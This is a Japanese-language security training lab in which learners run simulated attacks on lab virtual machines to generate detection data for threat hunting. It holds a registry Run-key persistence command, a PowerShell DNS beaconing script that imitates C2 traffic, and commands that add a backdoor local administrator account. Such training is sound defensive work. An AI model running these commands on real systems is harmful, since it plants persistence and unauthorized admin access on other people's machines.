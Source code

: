 # モジュール 7 - ラボ 1 - 演習 5 - 攻撃の実施

### タスク 1: Defender for Endpoint によって構成した Windows を攻撃します。

このタスクでは、Microsoft Defender for Endpoint が構成されているホストに対して攻撃を実行します。

1. 管理者として WIN1 仮想マシンにログインします。パスワードは**Pa55w.rd** です。  

2. タスク バーの検索で、*Command* と入力します。  検索結果にコマンド プロンプトが表示されます。  コマンド プロンプトを右クリックして、**「管理者として実行」** を選択します。表示されるユーザー アカウント制御ウィンドウで、「**はい**」を選択して、アプリの実行を許可します。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。
```
cd \
mkdir temp
cd temp
```
4. 攻撃 1 -このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 3 -次のコマンドをコピーして実行します。

```
notepad c2.ps1
```
「**はい**」を選択して新しいファイルを作成し、以下の PowerShell スクリプトを *c2.ps1* にコピーします。

**注:** 仮想マシンへの貼り付けには長さの制限がある場合があります。手順から直接コピーできない場合は、これを 3 つのセクションに貼り付けて、すべてのスクリプトが仮想マシンに貼り付けられるようにします。  スクリプトがメモ帳 *c2.ps1* ファイル内のこれらの手順のように見えることを確認してください。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

メモ帳のメニューで、「**ファイル**」を選択してから、「**保存**」を選択します。コマンド プロンプト ウィンドウで、次のコマンドを入力し、各行の後に Enter キーを押して各行にコマンドを入力します。

```
powershell
.\c2.ps1
```

**注:** 解決エラーが表示されます。これは予測されていることです。
**重要:** ウィンドウを閉じないでください。このコマンド/パワーシェルスクリプトをバックグラウンドで実行します。コマンドは、数時間ログエントリを生成する必要があります。このスクリプトの実行中に次のタスクや次の演習に進むことができます。このタスクで作成したデータは、後で脅威の捜索ラボで使用します。このプロセスでは、大量のデータや処理を作成することはありません。

### タスク 2: Sysmon で構成された攻撃ウィンドウ

このタスクでは、セキュリティ イベント コネクタが構成され、Sysmon が構成されているホストに対して攻撃を実行します。

1. 管理者として WIN2 仮想マシンにログインします。パスワードは**Pa55w.rd** です。  

2. タスク バーの検索で、*CMD* と入力します。  検索結果にコマンド プロンプトが表示されます。  コマンド プロンプトを右クリックして、**「管理者として実行」** を選択します。  表示される 「承認」 および 「ユーザー アカウント制御」 プロンプト。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。

```
cd \
mkdir temp
cd \temp
```

4. 攻撃 1 - このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 2 - このコマンドをコピーして実行し、各行の後に Enter キーを押して各行にコマンドを入力します。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 演習 6 に進みます。
